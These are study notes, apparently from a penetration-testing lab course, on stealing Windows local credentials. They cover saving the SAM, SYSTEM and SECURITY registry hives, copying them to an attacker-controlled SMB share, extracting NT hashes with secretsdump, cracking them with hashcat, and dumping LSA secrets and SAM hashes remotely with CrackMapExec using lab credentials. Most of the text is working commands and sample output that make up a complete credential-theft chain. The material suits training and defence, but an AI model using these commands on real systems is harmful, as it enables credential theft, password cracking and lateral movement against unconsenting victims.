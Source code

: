
## Purpose

- Extract **local account password hashes** from a non-domain Windows system.
    
- Crack hashes **offline** instead of keeping active session.
    

---

## Registry Hives to Extract

- **HKLM\SAM** → local account hashes
    
- **HKLM\SYSTEM** → system bootkey (needed to decrypt SAM)
    
- **HKLM\SECURITY** → cached domain creds (if domain-joined)
    

Command (run as Administrator):

```
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

---

## Transfer Hives to Attack Host

Start SMB server (attacker):

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/user/Documents/
```

Move files (target):

```
move sam.save \\10.10.15.16\CompData
move system.save \\10.10.15.16\CompData
move security.save \\10.10.15.16\CompData
```

Check transfer:

```
ls
sam.save  system.save  security.save
```

---

## Dumping Hashes with Impacket

Extract NT hashes:

```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Output format:

```
user:RID:LMHASH:NTHASH:::
```

---

## Cracking NT Hashes with Hashcat

Create a file with NT hashes:

```
64f12cddaa88057e06a81b54e73b949b
6f8c3f4d3869a10f3b4f0522f537fd33
```

Crack with NTLM mode (`-m 1000`):

```
hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

Example cracked:

```
f7eb9c06fafaa23c4bcf22ba6781c1e2:dragon
6f8c3f4d3869a10f3b4f0522f537fd33:iloveme
```

---

## Remote Dumping with CrackMapExec

Dump **LSA secrets**:

```
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

Sample output:

```
WS01\worker:Hello123
dpapi_machinekey:0xc03a...
```

Dump **SAM hashes**:

```
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

Sample output:

```
bob:1001:...:cf3a5525ee9414229e66279623ed5c58:::
sam:1002:...:a3ecf31e65208382e23b3420a34208fc:::
```

---

## Key Takeaways

- Extract **SAM + SYSTEM + SECURITY** to dump hashes.
    
- Use **secretsdump.py** for offline NTLM hash extraction.
    
- Crack with **Hashcat (mode 1000)** and wordlists.
    
- Remote dumping possible with **CrackMapExec** if local admin creds available.
    
- Cracked passwords can often be reused across systems.
    

---

Do you want me to also create a **step-by-step attack chain (flowchart style)** for SAM → Hash Extraction → Cracking → Reuse?
